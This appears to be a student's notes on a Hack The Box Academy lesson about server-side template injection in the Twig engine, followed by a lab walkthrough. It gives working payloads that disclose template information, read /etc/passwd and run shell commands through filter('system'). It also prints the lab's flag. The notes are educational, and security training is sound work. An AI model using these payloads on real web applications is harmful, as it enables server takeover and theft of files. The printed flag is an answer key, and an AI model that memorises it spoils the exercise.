 ```yaml
---
sticker: lucide//book-template
---
```


# Exploiting SSTI - Twig

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

***

### Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

***

### Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

***

### Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

***

### Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212141817.png)

Flag is:

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
